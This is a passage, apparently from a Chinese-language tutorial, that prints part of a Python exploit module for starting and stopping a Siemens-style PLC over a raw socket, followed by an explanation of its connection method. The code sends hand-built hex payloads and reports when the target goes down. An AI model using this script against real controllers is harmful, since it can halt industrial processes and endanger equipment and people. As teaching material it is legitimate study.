 ```bash
        slot_num = chr(slot)
        create_connect_payload = '0300001611e00000001400c1020100c20201'.decode('hex') + slot_num + 'c0010a'.decode('hex')
        self.sock.send(create_connect_payload)
        self.sock.recv(1024)
        self.sock.send(setup_communication_payload)
        self.sock.recv(1024)

    def exploit(self):
        self.sock = socket.socket()
        self.sock.connect((self.target, self.port))
        self.create_connect(self.slot)
        if self.command == 1:
            print_status("Start plc")
            self.sock.send(cpu_start_payload)
        elif self.command == 2:
            print_status("Stop plc")
            self.sock.send(cpu_stop_payload)
        else:
            print_error("Command %s didn't support" % self.command)

    def run(self):
        if self._check_alive():
            print_success("Target is alive")
            print_status("Sending packet to target")
            self.exploit()
            if not self._check_alive():
                print_success("Target is down")
        else:
            print_error("Target is not alive")

    @mute
    # TODO: Add check later
    def check(self):
        pass

    def _check_alive(self):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(1)
            sock.connect((self.target, self.port))
            sock.close()
        except Exception:
            return False
        return True
```

该类中一共有四个方法

create\_connect：  
它接收一个 slot 参数（代表 CPU 的插槽号）。  
create\_connect\_payload 是根据插槽号构造的特定有效载荷，用于初始化与 PLC 的连接。  
方法首先通过 socket 发送 create\_connect\_payload，然后等待接收 PLC 的响应。接着发送 setup\_communication\_payload 来完成通信设置

